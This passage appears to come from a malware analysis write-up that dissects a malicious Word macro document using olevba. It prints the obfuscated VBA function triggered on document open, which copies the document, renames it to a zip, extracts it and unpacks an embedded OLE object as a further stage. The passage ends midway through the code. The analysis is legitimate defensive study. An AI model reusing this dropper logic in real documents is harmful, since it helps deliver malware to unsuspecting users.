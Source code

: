 In the macro, the string "do_mc_xs.zi_p" is shown, which is not detected by the regular expression; however, during execution it is renamed to "domcxs.zip" for further processing.

Since the function has several lines, and is difficult to understand with unfriendly variable names, we export it to a file to "clean it up" a bit:

```powershell
olevba.exe -c .\e38c39e302de158d22e8d0ba9cd6cc9368817bc611418a5777d00b90a9341404.docm > macros.vba
```

Once exported, we identify that Document_Open() calls the "weoqzisdi___lorfar()" function:

![alt text](/img/003-documentOpen.png "Document Open Function")

Since we don't see any code on the other functions, we extract the "weoqzisdi___lorfar()" function for further analysis:

```vba
Sub weoqzisdi___lorfar()
    
    Dim path_weoqzisdi___file As String
    
    Dim file_weoqzisdi___name  As String
    
    Dim folder_weoqzisdi___name  As Variant
    Dim oAzedpp     As Object
    
    Set oAzedpp = CreateObject("Shell.Application")
    
    file_weoqzisdi___name = "vteijam hdgtra"
    
    folder_weoqzisdi___name = Environ$("USERPROFILE") & "\Wrdix" & "" & Second(Now) & "\"
    
    If Dir(folder_weoqzisdi___name, vbDirectory) = "" Then
        MkDir (folder_weoqzisdi___name)
    End If
    
    path_weoqzisdi___file = folder_weoqzisdi___name & file_weoqzisdi___name
    
    Dim FSEDEO      As Object
    Set FSEDEO = CreateObject("Scripting.FileSystemObject")
    
    FSEDEO.CopyFile Application.ActiveDocument.FullName, folder_weoqzisdi___name & Replace("do_mc_xs", "_", ""), TRUE
    Set FSEDEO = Nothing
    
    Name folder_weoqzisdi___name & Replace("do_mc_xs", "_", "") As folder_weoqzisdi___name & Replace("do_mc_xs.zi_p", "_", "")
    
    oAzedpp.Namespace(folder_weoqzisdi___name).CopyHere oAzedpp.Namespace(folder_weoqzisdi___name & Replace("do_mc_xs.zi_p", "_", "")).items
    
    Dim poueeds     As Integer
    Dim filewedum   As String
    
    poueeds = InStr(Application.System.Version, ".1")
    
    filewedum = 2
    
    If poueeds Then
        filewedum = 1
    End If
    
    Name folder_weoqzisdi___name & "word\embeddings\oleObject1.bin" As folder_weoqzisdi___name & "word\" & file_weoqzisdi___name & Replace(".z_ip", "_", "")
    
```